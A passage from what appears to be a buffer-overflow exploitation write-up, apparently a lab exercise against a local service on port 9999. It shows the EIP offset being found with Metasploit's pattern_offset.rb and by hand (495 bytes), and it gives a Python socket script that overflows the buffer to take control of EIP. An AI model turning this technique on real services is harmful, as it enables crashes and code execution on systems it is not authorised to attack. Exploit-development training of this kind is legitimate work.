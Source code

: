 - We inspect the value of `EIP`:

![](img/pattern.png)

- We give this value to `pattern_offset.rb` to compute the exact number of characters needed to crash the program: 

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41357141
[*] Exact match at offset 495
```

#### Method#2: manually

Since I saw the message _"529 bytes copied to buffer"_ on the debug console, I tried many values (525, 500, ...) until I found **495** was the exact offset.

```python
import socket
import time
import sys

offset = 495
buffer = b"A" * offset + b"B" * 4
target = '127.0.0.1'
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```

By placing `BBBB` at the end of my payload, I thought: _"I will find the offset after `EIP`'s value will be `42424242`"_:
